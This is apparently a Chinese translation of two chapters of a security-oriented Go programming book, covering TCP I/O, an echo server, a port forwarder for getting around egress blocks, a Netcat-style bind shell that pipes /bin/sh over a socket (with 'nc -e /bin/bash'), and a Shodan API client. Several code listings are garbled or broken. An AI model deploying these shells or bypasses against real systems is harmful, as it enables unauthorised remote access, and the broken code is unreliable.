你可以对此程序进行一些改进。首先，你对每个扫描的端口都向 `results` 通道发送数据，这是没有必要的。替代方案需要稍微复杂的代码，因为它使用了一个额外的通道不仅用于跟踪工作线程，还通过确保所有收集到的结果完成来防止竞态条件。由于这是一个入门章节，我们特意遗留了这一点；但别担心！我们将在第 3 章中介绍这种模式。其次，你可能希望你的扫描器能够解析端口字符串——例如 `80,443,8080,21-25`，就像可以传递给 `Nmap` 的那些一样。如果你想看到这种实现，请查看 `https://github.com/blackhat-go/bhg/blob/master/ch2/scanner-port-format`。我们将此留作为一个练习供你探索。

## 构建 TCP 代理

你可以通过 Go 内置的 `net` 包实现基于 TCP 的通信。前一节主要关注从客户端角度来看使用 `net` 包，而本节将使用它创建 TCP 服务器并传输数据。你将从构建必要的回显服务器开始这段旅程——一个仅仅将给定的响应回给客户端的服务器——随后是两个更通用的程序：TCP 端口转发器以及用于远程命令执行的 `Netcat` “巨大的安全漏洞”的重建。

## 使用 io.Reader 和 io.Writer

为了创建本节中的示例，你需要使用两个对所有输入/输出（I/O）任务都至关重要的类型，无论你使用的是 TCP、HTTP、文件系统还是其他手段：`io.Reader` 和 `io.Writer`。作为 Go 内置 `io` 包的一部分，这些类型是任何本地或网络数据传输的基石。这些类型在 Go 的文档中定义如下：

```go
type Reader interface {
    Read(p []byte) (n int, err error)
}
type Writer interface {
    Write(p []byte) (n int, err error)
}
```


这两个类型都被定义为接口，这意味着它们不能被直接实例化。每个类型都包含一个单一导出函数的定义：`Read` 或 `Write`。正如第 1 章所解释，你可以将这些函数视为抽象方法，必须在类型上实现它们，该类型才能被视为 `Reader` 或 `Writer`。例如，以下的人造类型符合合同并可以使用任何接受 `Reader` 的地方：

```go
type FooReader struct {
    func (fooReader *FooReader) Read(p []byte) (int, error) {
        // 从某任何地方读取数据。
        return len(dataReadFromSomewhere), nil
    }
}
```

同样的想法也适用于 `Writer` 接口：

```go
type FooWriter struct {
    func (fooWriter *FooWriter) Write(p []byte) (int, error) {
        // 将数据写入某处。
        return len(dataWrittenSomewhere), nil
    }
}
```

让我们利用这些知识创建一些半可用的东西：一个封装 `stdin` 和 `stdout` 的自定义 `Reader` 和 `Writer`。这段代码有点生造，因为 Go 的 `os.Stdin` 和 `os.Stdout` 类型已经充当了 `Reader` 和 `Writer`，但如果你不偶尔重新发明一下轮子，你就学不到任何东西，不是吗？

列表 2-9 显示了完整的实现，并在随后提供了解释。

```go
package main

import (
  "fmt"
  "log"
  "os"
)

// FooReader 定义 io.Reader 以从 stdin 读取。
type FooReader struct {}

// Read 从 stdin 读取。
func (fooReader *FooReader) Read(b []byte) (int, error) {
  fmt.Print("in > ")
  return os.Stdin.Read(b)
}

// FooWriter 定义 io.Writer 以写入 stdout。
type FooWriter struct {}

// Write 写入 stdout。
func (fooWriter *FooWriter) Write(b []byte) (int, error) {
    fmt.Print("out>")
    return os.Stdout.Write(b)
}

func main() {
    // 实例化 reader
    var (
        reader FooReader
        writer FooWriter
    )

    // 创建缓冲区来持有输入/输出。
    input := make([]byte, 4096)

    // 使用 reader 读取。
    s, err := reader.Read(input)
    if err != nil {
        log.Fatalf("无法读取数据")
    }
    fmt.Printf("%d bytes from stdin\n", s)

    // 使用 writer 写入。
    s, err = writer.Write(input)
    if err != nil {
        log.Fatalf("无法写入数据")
    }
    fmt.Printf("%d bytes to stdout\n", s)
}
```

Listing 2-9: reader 和 writer 演示 (ch-2/io-example/main.go)

代码定义了两个类型：`FooReader` ① `FooWriter` ④。在每个类型上，你为 `FooReader` 定义了 `Read([]byte)` 函数 ②，为 `FooWriter` 定义了 `Write([]byte)` 函数 ⑤。在这种情况下，这两个函数从 `stdin` 读取 ③ 并写入 `stdout` ⑥。

注意 `FooReader` 和 `os.Stdin` 的 `Read` 函数都返回长度和任何错误。数据本身被复制到传递的字节切片中。这与节之前提供的 `Reader` 接口定义一致。`main()` 函数创建一个切片（命名为 `input` 7），然后在调用 `FooReader.Read([]byte)` 8 和 `FooWriter.Write([]byte)` 9 时使用它。

程序的示例输出如下：

```
$ go run main.go
in > hello world!!!
Read 15 bytes from stdin
out> hello world!!!
Write 4096 bytes to stdout
```

从 `Reader` 将数据拷贝到 `Writer` 是一个相当常见的模式——以至于 Go 的 `io` 包包含一个 `Copy()` 函数，可以用来简化 `main()` 函数。该函数的原型如下：

```go
func Copy(io.Writer, src io.Reader) (written int64, error error)
```

这个便利函数允许你实现与之前相同的程序行为，用列表 2-10 中的代码替换你的 `main()`。

```go
func main() {
    var (
        reader FooReader
        writer FooWriter
    )
    if _, err := io.Copy(&writer, &reader); err != nil {
        log.Fatalf("无法读取/写入数据")
    }
}
```

```
}
```

列表 2-10：使用 io.Copy (/ch-2/copy-example/main.go)

注意，对 `reader.Read([byte])` 和 `writer.Write([byte])` 的显式调用已被替换为对 `io.Copy(writer, reader)` 的单个调用。底层，`io.Copy(writer, reader)` 调用提供的 reader 的 `Read([byte])` 函数，从而触发来自 stdin 的 `FooReader`。随后，`io.Copy(writer, reader)` 调用提供的 writer 的 `Write([byte])` 函数，导致调用 writer 并将数据写入 stdout。本质上，`io.Copy(writer, reader)` 处理了顺序的“先读后写”过程，无需处理所有琐碎的细节。

这一介绍性章节绝非对 Go I/O 和接口的全面回顾。Go 标准包中存在许多便利函数以及自定义的读取器和写入器。在大多数情况下，Go 的标准包包含了实现最常见任务的基础实现。在下一节中，让我们探索如何将这些基础知识应用于 TCP 通信，最终利用赋予你的力量来开发现实生活中可用的工具。

## 创建 Echo 服务器

按照大多数语言的惯例，你将从构建一个 echo 服务器开始，以学习如何从套字读写数据。为了实现这一点，你将使用 `net.Conn`，这是 Go 的面向流的网络连接，我们在构建端口扫描器时曾介绍过它。根据 Go 对该数据类型的文档，`Conn` 实现了 `Reader` 和 `Writer` 接口定义的 `Read([byte])` 和 `Write([byte])` 函数。因此，`Conn` 既是 Reader也是 Writer（是的，这是可能的）。这逻辑上是合理的，因为 TCP 连接是双向的，可以用于发送（写）或接收（读）数据。

创建 `Conn` 实例后，你将能够通过 TCP 套字发送接收数据。然而，TCP 服务器不能直接制造连接；必须由客户端建立。在 Go 中，你可以使用 `net.Listen(network, address string)` 先在特定端口上开启 TCP 监听器。一旦客户端连接，`Accept()` 方法就会创建并返回一个 `Conn` 对象，你可以用它接收和发送数据。

列表 2-11 展示了服务器实现的完整示例。为了清晰起见，我们包含了内联注释。不用担心理解整个代码，我们稍后会进行拆解。

```go
package main

import (
	"io"
	"log"
	"net"
)

// echo 是一个处理函数，简单地回显接收到的数据。
func echo(conn net.Conn) {
	defer conn.Close()

	// 创建缓冲区缓冲区存储接收到的数据。
	b := make([]byte, 512)
	for {
		size, err := conn.Read(b[:])
		if err == io.EOF {
			log.Println("Client disconnected")
			break
		}
		if err != nil {
			log.Println("Unexpected error")
			continue
		}
		log.Printf("Received %d bytes: %s\n", size, string(b))

		// 通过 conn.Write 发送数据。
		log.Println("Writing data")
		if _, err := conn.Write(b[0:size]); err != nil {
			log.Fatalf("Unable to write data")
		}
	}
}

func main() {
	// 绑定到所有接口上的 TCP 端口 20080。
	listener, err := net.Listen("tcp", "20080")
	if err != nil {
		log.Fatalf("Unable to bind to port")
	}
	log.Println("Listening on 0.0.0.0:20080")
	// 等待连接。连接建立时创建 net.Conn。
	conn, err := listener.Accept()
	if err != nil {
		log.Fatalf("Unable to accept connection")
	}
	// 处理连接。使用 goroutine 实现并发。
	go echo(conn)
}
```

列表 2-11：基础 echo 服务器 (/ch-2/echo-server/main.go)

**列表 2-11** 从定义一个名为 `echo(net.Conn)` 的函数开始，它接受一个 `Conn` 实例作为参数。它作为一个连接处理程序来执行必要的 I/O。该函数无限循环，使用缓冲区从连接中读写数据。数据被读取到一个名为 `b` 的变量中，随后被写回连接。

现在，你需要设置一个会调用你的处理程序的监听器。如之前所述，服务器不能制造连接，而是必须等待客户端连接。因此，使用 `net.Listen(network, address string)` 函数在所有接口上启动一个定义为绑定到端口 20080 的 `listener`。

接下来，通过一个无限循环确保服务器在接收到一个连接后将继续监听连接。在循环内部，你调用了 `listener.Accept()`，该函数在等待客户端连接时会阻塞执行。当客户端连接时，此函数返回一个 `Conn` 实例。回本节早前的讨论，`Conn` 既是 Reader 也是 Writer（它实现了 `Read([]byte)` 和 `Write([]byte)` 接口方法）。

随后，`Conn` 实例被传递给 `echo(net.Conn)` 处理函数。该调用之前带有 `go` 关键字，使其成为并发调用，这样其他连接在等待处理程序时就不会被阻塞。

```go
func echo(conn net.Conn) {
	defer conn.Close()
	// Copy data from io.Reader to io.Writer via io.Copy().
	if _, err := io.Copy(conn, conn); err != nil {
		log.Fatalf("Unable to read/write data")
	}
}
```

你已经探索了 I/O 的基础知识，并将其应用于 TCP 服务器。现在，是时候转向更具实用性和更具相关性的示例了。

## 代理 TCP 连接

既然你已经有了坚实的基础，就可以利用目前为止所学的知识，创建一个简单的端口转发器，通过中间服务或主机来代理连接。正如本章早些提到的，这对于尝试绕过限制性的出站控制，或者利用某个系统来绕过网络隔离非常有用。

在列出代码之前，考虑这样一个想象的现实问题：Joe 是 ACME 公司的一名表现不佳的员工，担任业务分析师。由于他在简历中加入了一些轻微的夸大，他拿着丰厚的薪水。（他真的读过常春藤高校吗？Joe，这可不符合道德。）Joe 缺乏动力，但他对猫的热爱却与其相反——以至于他在家里安装了摄像头，并托管了一个网站 joescat.website，通过该网站可以远程监控那些落满皮屑的毛茸茸球体。但有一个问题：ACME 发现了 Joe。他们不喜欢他 24 小时用用 4K 超高清直播他的猫，这浪费了宝贵的 ACME 网络带宽。ACME 甚至阻止了员工访问 Joe 的猫咪摄像头网站。

Joe 有了一个主意。“如果我在我控制的互联网系统上设置一个端口转发器呢，”Joe 说，“并强制将从该主机发送的所有流量重定向到 joescatcam.website 会怎样？” Joe 在第二天检查，并确认他可以访问托管在 jooproxy.com 域名上的个人网站。Joe 错过了下午的会议，来到一家咖啡馆，并迅速为他的问题编写了一个解决方案。他将把接收到 http://jooproxy.com 的所有流量转发到 http://joescatcam.website。

以下是 Joe 的代码，他在 joescatcam.com 服务器上运行它：

```go
func handle(src net.Conn) {
	dst, err := net.Dial("tcp", "joescatcam.website:80")
	if err != nil {
		log.Fatal("Unable to connect to our unreachable host")
	}
	defer dst.Close()

	// Run in goroutine to prevent io.Copy from blocking
	go func() {
		// Copy our source's output to the destination
		if _, err := io.Copy(dst, src); err != nil {
			log.Fatal(err)
		}
	}()

	// Copy our destination's output back to our source
	if _, err := io.Copy(src, dst); err != nil {
		log.Fatal(err)
	}
}

func main() {
	// Listen on local port 80
	listener, err := net.Listen("tcp", ":80")
	if err != nil {
		log.Fatalln("Unable to bind to port")
	}

	for {
		conn, err := listener.Accept()
		if err != nil {
			log.Fatalln("Unable to accept connection")
		}
		go handle(conn)
	}
}
```

首先查看 Joe 的 `handle(net.Conn)` 函数。Joe 连接到 joescatcam.website（记住，这个无法访问的主机无法 Joe 的公司工作站直接访问）。Joe 随后使用了两次 `Copy(Writer, Reader)`。第一次调用确保来自入站连接的数据被复制到 joescatcam.website 连接。第二次调用确保从 joescatcam.website 读取的数据被写回连接客户端的连接。`Copy(Writer, Reader)` 是一个阻塞函数，它将继续阻塞执行直到网络连接关闭。Joe 明智地将他的第一次调用 `Copy(Writer, Reader)` 封装在一个新的 goroutine 中。这确保了 `handle(net.Conn)` 函数内部的执行继续，并且可以进行第二次 `Copy(Writer, Reader)` 调用。

Joe 的代理监听 80 端口，并中继从到 80 端口 joescatcam.website 的连接收到的任何流量。Joe 那个疯狂又浪费的男人，通过 `curl` 连接到 joesproxy.com，确认他可以连接到 joescatcam.website：

```bash
$ curl -i -X GET http://joseproxy.com
HTTP/1.1 200 OK
Date: Wed, 25 Nov 2020 19:51:54 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Thu, 27 Jun 2019 15:30:43 GMT
ETag: "6d-519594e7f2d25"
Accept-Ranges: bytes
Content-Length: 109
Vary: Accept-Encoding
Content-Type: text/html
--snip--
```

此时，Joe 做到了。他正在过着梦想，一边浪费 ACME 赞助的时间和网络带宽一边看他的猫。今天，会有猫看！

## 复现用于命令执行的cat

在这一部分，让我们复现 Netcat 一些更有趣的功能——特别是它巨大的安全漏洞。


Netcat 是 TCP/IP 世界的瑞士军刀——本质上是一个更灵活、可脚本的 `Telnet` 版本。它包含一个功能，允许任何任意程序的标准输入和标准输出重定向到 `TCP`，这使得攻击者例如可以将单个命令执行漏洞转换为操作系统的 shell 访问。考虑以下内容：

```bash
$ nc -lp 13337 -e /bin/bash
```

此命令在 `13337` 端口上创建一个监听服务器。任何连接的远程客户端（可能通过 `Telnet`）都能够执行任意 `bash` 命令——因此这被称为巨大的安全漏洞。Netcat 允许你在编译程序时可选地包含此功能。（出于正当理由，你在标准 Linux 构建中找到的大多数 Netcat 二进制文件都不包含此功能。）它足够危险，以我们将向你如何用 `Go` 创建它！

首先，查看 `Go` 的 `os/exec` 包。你将用它来运行操作系统命令。该包定义了一个类型 `Cmd`，它包含了运行命令以及操纵标准输入和输出所需的方法和属性。你将把标准输入（`Reader`）和标准输出（`Writer`）重定向到一个 `Conn` 实例（它既是 `Reader` 也是 `Writer`）。

当你收到一个新连接时，可以使用 `os/exec` 中的 `Command(name string, arg ...string)` 函数创建一个新的 `Cmd` 实例。例如，你可以使用 `/bin/sh` 配合 `-i` 进行交互模式：

```go
cmd := exec.Command("/bin/sh", "-i")
```

`io.Pipe()` 函数是 `Go` 提供的同步内存管道，可用于连接 `Reader`（读取器）和 `Writer`（写入器）：

```
func Pipe() (*PipeReader, *PipeWriter)
```

`PipeReader` 和 `PipeWriter` 可以让你避免刷新写入器，并同步连接 `stdout` 和 `TCP` 连接。你将再次重写句柄函数：

```go
func handle(conn net.Conn) {
// 显式调用 /bin/sh 并使用 -i 交互模式
// 这样我们就可以将其用于 stdin 和 stdout。
// Windows 使用 exec.Command("cmd.exe").
cmd := exec.Command("/bin/sh", "-i")
// 将 stdout 设置为我们的连接
rp, wp := io.Pipe()
cmd.Stout = wp
cmd.Stdin = conn
go io.Copy(conn, rp)
cmd.Run()
conn.Close()
}
```

对 `io.Pipe()` 的调用会创建一个读取器和一个写入器，它们是同步连接的——任何写入写入器（本例中的 `wp`）的数据都会被读取器（`rp`）读取。因此，你将写入器赋值给 `cmd.Stout`，然后使用 `io.Copy(conn, rp)` 将 `PipeReader` 连接到 `TCP` 连接。你通过使用 `goroutine` 来此操作以防止代码阻塞。命令的任何标准输出都将发送到写入器，随后管道到读取器并通过 `TCP` 连接传出。这不优雅吗？

至此，你已经从等待连接的 `TCP` 监听器的角度，成功实现了 Netcat 巨大的安全漏洞。你可以使用类似的逻辑，从连接客户端的角度实现该功能，将本地二进制文件的 `stdout` 和 `stdin` 重定向到远程监听器。具体细节由你决定，可能包括以下内容：

- 通过 `net.Dial(network, address string)` 建立到到远程监听器的连接。
- 通过 `exec.Command(name string, arg ...string)` 初始化一个 `Cmd`。
- 重定向 `Stdin` 和 `Stdout` 属性以利用 `net.Conn` 对象。
- 运行命令。

此时，监听器应该接收到一个连接。发送到客户端的任何数据都应被解释为客户端的 `stdin`，监听器上接收到的任何数据都应被解释为 `stdout`。此示例的完整代码可以在 `https://github.com/blackhat-go/bhg/blob/master/ch-2/netcat-exec/main.go` 获取。

## 总结

现在你已经探索了 `Go` 在网络、I/O 和并发方面的实际应用和用法，让我们转向创建可用的 HTTP 客户端。

# 3

## HTTP 客户端与工具的远程交互


在第 2 章中，你学习了如何通过各种技术创建可用的客户端和服务器来利用 `TCP` 的力量。这是系列章节中的第一章，旨在探索 OSI 模型较高层的各种协议。由于其在网络中的普及性、与松散出口控制的关联性以及通用的灵活性，让我们从 HTTP 开始。

本章侧重于客户端。它将首先向你介绍构建和自定义 HTTP 请求以及接收其响应的基础知识。然后，你将学习如何解析响应数据，以便客户端查询信息以确定可操作或相关的数据。最后，你将学习如何通过构建与各种安全工具和资源交互的 HTTP 客户端来应用这些基础知识。你开发的客户端将查询并消费 `Shodan`、`Bing` 和 `Metasploit` 的 API，并以类似于元数据搜索工具 `FOCA` 的方式搜索和解析文档元数据。

## Go HTTP 基础

虽然不需要全面理解 HTTP，但在开始之前，你应该了解一些基础知识。

首先，HTTP 是一个无状态协议：服务器本身不会为每个请求维护状态和状态。相反，状态通过各种手段进行跟踪，可能包括会话标识符、Cookie、HTTP 头部等。客户端和服务器有责任妥善协商并验证这种状态。

其次，客户端和服务器之间的通信可以是同步或异步的，但它们运行在请求/响应循环之上。你可以在请求中包含多个选项和头部，以影响服务器的行为并创建可用的 Web 应用程序。最常见的情况是服务器托管文件，网络浏览器将数据渲染成图形化、组织且美化的表示。端点可以提供任意数据类型。API 通常通过更结构化的数据编码（如 `XML`、`JSON` 或 `MSGRPC`）进行通信。在某些情况下，检索的数据可能是二进制格式，代表用于下载的任意文件类型。

最后，`Go` 包含了便利函数，让你能够快速方便地向服务器构建并发送 HTTP 请求，随后检索并处理响应。你在之前的章节中学习的某些机制，你会发现当与 HTTP API 交互时，处理结构化数据的约定证明极其方便。

## 调用 HTTP API

让我们通过检查基础请求开始 HTTP 讨论。

`Go` 的 `net/http` 标准包包含了几个便利函数，可以快速方便地发送 `POST`、`GET` 和 `HEAD` 请求，这些是你最常用的 HTTP 动词。这些函数如下：

```
Get(url string) (*Response, error)
Head(url string) (*Response, error)
Post(url string, bodyType string, body io.Reader) (*Response, error)
```

每个函数都接受 `URL` 作为参数。`Post()` 函数比 `Get()` 和 `Head()` 更复杂，因为它有两个额外的参数：`bodyType` 和 `io.Reader`。`Go` 有一个额外的便利函数叫做 `PostForm()`，它消除了设置 `Content-Type` 为 `application/x-www-urlencoded` 的麻烦。你可以在这里看到它的语法：

```
PostForm(url string, data url.Values) (*Response, error)
```

`PostForm()` 函数遵循设置主体常用模式。在每种情况下，你都必须关闭响应体。你可以在示例 3-1 中看到示例。

```
r1, err := http.Get("http://www.google.com/robots.txt")
// 读取响应体并关闭
defer r1.Close()
r2, err := http.Head("http://www.google.com/robots.txt")
// 读取响应体并关闭
defer r2.Close()
```

如果你想用 `PostForm()` 函数替换示例 3-1 中的 `Post()` 实现，你可以使用类似示例 3-2 中的代码：

```
form := url.Values{}
form.Add("foo", "bar")
r3, err := http.Post("https://www.google.com/robots.txt", form)
// 读取响应体并关闭
```

### 示例 3-1: `Get()`, `Head()`, `Post()` 函数的实现

### 示例 3-2: 使用 `PostForm()` 替代 `Post()`

### 生成请求

要使用这些动词之一生成请求，你可以使用 `NewRequest()` 函数创建一个 `Request` 结构体，随后你用客户端的 `Do()` 方法发送它。我们保证它比听起来要简单。`http.NewRequest()` 的函数原型如下：

```
func NewRequest(method, url string, body io.Reader) (*Request, error)
```

你需要将 HTTP 动词和目标 `URL` 作为前两个字符串参数传递给 `NewRequest()`。与示例 3-1 中的第一个 `POST` 示例类似，你可以通过传递 `io.Reader` 来可选地提供请求主体。

示例 3-3 显示了一个没有 HTTP 主体的调用——`DELETE` 请求。

```
req, err := http.NewRequest("DELETE", "https://www.google.com/robots.txt", nil)
var client http.Client
resp, err := client.Do(req)
// 读取响应体并关闭
```

### 示例 3-3: 发送 `DELETE` 请求

现在，列表 3-4 显示了一个带有 `io.Reader` 请求体的 `PUT` 请求（`PATCH` 请求也类似）。

```go
form := url.Values{}
form.Add("foo", "bar")
var client http.Client
req, err := http.NewRequest(
    "PUT",
    "https://www.google.com/robots.txt",
    strings.NewReader(form.Encode()),
)
resp, err := client.Do(req)
// Read response body and close.
```

列表 3-4: 发送 `PUT` 请求 (`/ch-3/basic/main.go`)

标准的 `Go` `net/http` 库包含了几个函数，你可以使用这些函数在请求发送到服务器之前对其进行处理。在在本章的实际示例中，你将学习一些更相关且实用的变体。但首先，我们将向你展示如何对接收到的 HTTP 响应进行一些有意义的操作。

## 使用结构化响应解析

在上一节中，你学习了在 `Go` 中构建和发送 HTTP 请求的机制。那些示例中的每一个都略带了响应处理，基本上暂时忽略了它。但检查 HTTP 响应的各种组件是任何 HTTP 相关任务的关键方面，例如读取响应体、访问 `Cookie` 和头部，或者简单地检查 HTTP 状态码。

列表 3-5 改进了列表 3-1 中的 `GET` 请求，以显示状态码和响应体——在这种情况下是 `Google` 的 `robots.txt` 文件。它使用 `ioutil.ReadAll()` 函数从响应体中读取数据，进行了一些错误检查，并将 HTTP 状态码和响应体打印到标准输出。

```go
resp, err := http.Get("https://www.google.com/robots.txt")
if err != nil {
    log.Panic(err)
}
// Print HTTP Status
fmt.Println(resp.Status)

// Read and display response body
body, err := ioutil.ReadAll(resp.Body)
if err != nil {
    log.Panic(err)
}
fmt.Println(string(body))
resp.Body.Close()
```

列表 3-5: 处理 HTTP 响应体 (`/ch-3/basic/main/go`)

一旦你收到响应，名为 `resp` 的变量通过访问导出的 `Status` 参数来获取状态字符串（例如 `200 OK`）；我们的示例中未显示一个类似的 `StatusCode` 参数，它只访问状态字符串的整数部分。

`Response` 类型包含一个导出的 `Body` 参数，其类型为 `io.ReadCloser`。`io.ReadCloser` 是一个接口，既充当 `io.Reader` 也充当 `io.Closer`，或者说需要实现 `Close()` 函数以关闭读取器并执行任何清理工作的接口。这些细节并不重要；只需知道从 `io.ReadCloser` 中读取数据后，你需要对响应体调用 `Close()` 函数。使用 `defer` 来关闭响应体是常见做法；这可以确保响应体在函数返回之前已关闭。

现在，运行脚本查看错误状态和响应体：

```bash
$ go run main.go
200 OK
User-agent: *
Disallow: /search/about
Allow: /search
Disallow: /sdch
Disallow: /groups
Disallow: /index.html?
Disallow: ?
Allow: ?hl=
Disallow: ?hl=&\*
Disallow: ?hl=*&gws_rd=ssl
Disallow: ?hl=*&gws_rd=ssl
--snip--
```

如果你遇到解析结构化数据的需求——你很可能会遇到——你可以通过使用第 2 章介绍的约定来读取响应体并对其解码。例如，假设你正在与一个使用 `JSON` 通信的 API 交互，一个端点——例如 `/ping`——返回以下指示服务器状态的响应：

```json
{"Message":"All is good with the world","Status":"Success"}
```

你可以使用列表 3-6 中的程序与该端点交互并解码 `JSON` 消息。

```go
package main

import (
    "encoding/json"
    "log"
    "net/http"
)

type Status struct {
  Message string
  Status  string
}

func main() {
  res, err := http.Post(
    "http://IP:PORT/ping",
    "application/json",
    nil,
  )
  if err != nil {
    log.Fatalln(err)
  }

  var status Status
  if err := json.NewDecoder(res.Body).Decode(&status); err != nil {
    log.Fatalln(err)
  }
  defer res.Body.Close()
  log.Printf("%s -> %s\n", status.Status, status.Message)
}
```

列表 3-6: 解码 `JSON` 响应体 (`/ch-3/basic-parsing/main.go`)

代码开始定义一个名为 `status` 的结构体，它包含了服务器响应中期的元素。`main()` 函数启动 `POST` 请求然后解码响应体。在此之后，你可以像往常一样查询 `Status` 结构体——通过访问导出的数据类型 `Status` 和 `Message`。

解析结构化类型的过程在其他编码格式（如 `XML` 甚至二进制表示）中是一致的。你从定义一个表示预期响应数据的结构体开始，然后将数据解码到该结构体。解析其他格式的细节和实际实现将留给你完成。

为了可用性进行构建会稍微改变项目的结构。

以 `Shodan` 为例，其项目结构如下：

```bash
$ tree github.com/blackhat-go/bhg/ch-3/shodan
github.com/blackhat-go/bhg/ch-3/shodan
|--cmd
| |---shodan
|   |---main.go
|   |---shodan
|   |---api.go
|   |---host.go
|   |---shodan.go
```

`main.go` 文件定义了包 `main`，主要作为你将构建的 API 的消费者；在这种情况下，你主要使用它与你的客户端实现进行交互。

`shodan` 目录下的文件——`api.go`、`host.go` 和 `shodan.go` 定义了包 `shodan`，该包包含了与 `Shodan` 通信所需的类型和函数。这个包将成为你的独立库，可以将其导入到各种项目中。

# 清理 API 调用

当你浏览 `Shodan` API 文档时，可能会注意到每个暴露的函数都要求你发送 API key。虽然你确实可以将该值传递给你创建的每个消费者函数，但重复的任务会变得枯燥。对于硬编码或处理基础 `URL` (`https://api.shodan.io/`) 也是如此。例如，在下面的代码段中定义你的 API 函数，这需要你向每个函数传递 `token` 和 `URL`，这并不优雅：

```
func APIInfo(token, url string) { --snip-- }
func HostSearch(token, url string) { --snip-- }
```

相反，不如选择一种更符合语言习惯的解决方案，这可以减少你的击键次数，并认为提高代码的可读性。要做到这一点，请创建一个 `shodan.go` 文件并输入列表 3-7 中的代码。


```
package shodan

const BaseURL = "https://api.shodan.io"

type Client struct {
    apiKey string
}

func New(apiKey string) *Client {
    return &Client(apiKey: apiKey)
}
```

**列表 3-7：Shodan Client 定义 (`ch-3/shodan/shodan.go`)**

Shodan URL 被定义为一个常量值①；这样你就可以在实现函数内部方便地访问和重用它。如果 Shodan 更改了其 API 的 URL，你只需要在一个地方进行更改即可纠正整个代码库。接下来，你定义了一个 `Client` 结构体，用于在跨请求维护你的 API token②。最后，代码定义了一个 `New()` 辅助函数，接受 API token 作为输入创建并返回一个初始化的 `Client` 实例③。现在，与其将 API 代码创建为任意函数，不如将它们创建为 `Client` 结构体的方法，这允许你直接查询实例，而不是依赖于过于冗长的函数参数。你可以将 API 函数调用（我们稍后会讨论）更改为：

```
func (s *Client) APIInfo() { --snip-- }
func (s *Client) HostSearch() { --snip-- }
```

由于这些是 `Client` 结构体的方法，你可以通过 `s.apiKey` 获取 API key，并通过 `BaseURL` 获取 URL。调用这些方法的唯一先决条件是先创建一个 `Client` 结构体的实例。你可以通过 `shodan.go` 中的 `New()` 辅助函数来实现。

## 查询你的 Shodan 订阅

现在你将开始与 Shodan 交互。根据 Shodan API 文档，查询你的订阅计划信息的调用如下：

```
https://api.shodan.io/api-info?key={YOUR_API_KEY}
```

返回的响应类似于以下结构。显然，值将根据你的计划详情和剩余订阅积分而异。

```
{
  "query_credits": 56,
  "scan_credits": 0,
  "telnet": true,
  "plan": "edu",
  "https": true,
  "unlocked": true
}
```

首先，在 `api.go` 中，你需要定义一个可以将 JSON 响应反序列化为 Go 结构体的类型。没有它，你就无法处理或查询响应体。在这个示例中，将类型命名为 `APIInfo`：

```go
type APIInfo struct {
  QueryCredits int `json:"query_credits"`
  ScanCredits int `json:"scan_credits"`
  Telnet bool `json:"telnet"`
  Plan string `json:"plan"`
  HTTPS bool `json:"https"`
  Unlocked bool `json:"unlocked"`
}
```

> Go 的强大之处使得结构和 JSON 的对应成了一种乐事。就像第 1 章一样，你可以使用一些很棒的工具来“自动”解析 JSON——为你填充字段。对于结构体上的每个导出类型，你通过结构体标签显式地定义 JSON 元素名称，可以确保数据被正确映射和解析。

接下来，你需要实现列表 3-8 中的函数，该函数向 Shodan 发送 HTTP GET 请求并将响应解码到你的 `APIInfo` 结构体中：

```go
func (s *Client) APIInfo() (*APIInfo, error) {
  res, err := http.Get(fmt.Sprintf("%s/api-info?key=%s", BaseURL, s.apiKey))
  if err != nil {
    return nil, err
  }
  defer res.Body.Close()

  var ret APIInfo
  if err := json.NewDecoder(res.Body).Decode(&ret); err != nil {
    return nil, err
  }
  return &ret, nil
}
```

**列表 3-8：发送 HTTP GET 请求 (`ch-3/shodan/api.go`)**

与初始的 API 调用相比，这一个复杂得多。请求不仅带有多个参数，JSON 响应还包含嵌套数据和数组。在接下来的实现中，你将忽略 facets 数据，而是专注于执行基于字符串的主机搜索。

可以正常解析 JSON，同时通过仅包含与示例最相关的字段来缩短代码长度。为了初始化并填充结构体，你将在列表 3-10 中定义该函数，它与你在列表 3-8 中创建的 `APIInfo()` 方法类似。

```go
func (s *Client) HostSearch(q string) (*HostSearch, error) {
    res, err := http.Get(2)
    fmt.Printf("/%s/shodan/host?key=%s&query=%s", BaseURL,
    s.APIKey, q)

    if err != nil {
        return nil, err
    }
    defer res.Body.Close()
}

var ret HostSearch
if err := json.NewDecoder(res.Body).Decode(&ret) 3, err != nil {
    return nil, err
}

return ret, nil
```

**列表 3-10：解码主机搜索响应体 (`/ch-3/shodan/shodan.go`)**

其流程和逻辑与 `APIInfo()` 方法完全相同，不同之处你将查询字符串作为参数 1，向 `/shodan/host/search` 节点发送调用并传递搜索词 2，并将响应解码为 `HostSearch` 结构体 3。

对于你想交互的每个 API 服务，重复这个结构定义和函数实现的过程。与其在这里浪费大量篇幅，我们将跳过向你展示该过程的最后一步：使用你的 API 代码创建客户端。

## 创建客户端

你将使用一种极简的方法来创建客户端：将搜索词作为命令行参数，然后调用 `APIInfo()` 和 `HostSearch()` 方法，如列表 3-11 所示。

```go
func main() {
	if len(os.Args) != 2 {
		log.Fatalln("Usage: shodan search")
	}

	apiKey := os.Getenv("SHODAN_API_KEY")
	s := shodan.New(apiKey)
	info, err := s.APIInfo()
	if err != nil {
		log.Panic(err)
	}
	fmt.Printf("Query Credits: %d\nScan Credits: %d\n\n",
	info.QueryCredits,
	info.ScanCredits)

	hostSearch, err := s.HostSearch(os.Args[1])
	if err != nil {
		log.Panic(err)
	}
	for _, host := range hostSearch.Matches {
		fmt.Printf("%18s%88d\n",host.IPString,host.Port)
	}
}
```

**列表 3-11：消费并使用 shodan 包 (`/ch/shodan/cmd/shodan/main.go`)**

首先从 `SHODAN_API_KEY` 环境变量中读取你的 API 密钥。然后使用该值初始化一个新的 `Client` 结构体 `s`，随后使用它调用你的 `APIInfo()` 方法 3。调用 `HostSearch()` 方法，并传入从命令行参数捕获的搜索字符串 4。最后，遍历结果以显示与查询字符串匹配的服务的 IP 和端口值 5。以下输出显示了一个示例运行，搜索字符串 `tomcat`：

```bash
$ SHODAN_API_KEY=YOUR-KEY go run main.go tomcat
```

Query Credits: 100

Scan Credits: 100

| 185.23.138.141 | 8081 |
| 218.103.124.239 | 8080 |
| 123.59.14.169 | 8081 |
| 177.6.80.213 | 8181 |
| 142.165.84.160 | 10000 |
| --snip-- |

你可能需要向此项目添加错误处理和数据验证，但它作为使用你的新 API 获取和显示 Shodan 数据的良好示例。你现在拥有了一个可以运行的代码库，可以轻松扩展以支持和测试其他 Shodan 函数。

## 与 METASPLOIT 交互

